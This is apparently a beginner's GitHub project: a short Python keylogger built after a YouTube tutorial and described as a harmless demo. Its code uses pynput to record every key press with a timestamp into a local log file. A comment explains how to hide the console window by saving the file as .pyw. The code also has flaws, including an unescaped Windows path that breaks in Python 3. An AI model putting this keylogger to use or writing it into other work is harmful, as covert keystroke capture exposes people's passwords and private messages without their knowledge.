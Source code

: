 #There are many tutorials of this on youtube, so I decided I would try it out for myself and get an introduction to a more standard programming language than a specific one such as powershell. This specific keylogger
#follows David Bombals video and simply records each key press along with the date/time they were pressed.

#Change file format to .pyw to get the file to run without a console or .py to run with console. Not for malicious purposes, simply a short demo.

#![image](https://github.com/JMacPort/PythonProjects/assets/145376972/21c9051d-1bb6-41a0-bb05-df824b5bb26d)

from pynput.keyboard import Key, Listener
import logging

log_dir = "C:\Users\j\Desktop\Hmm"

logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
    level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
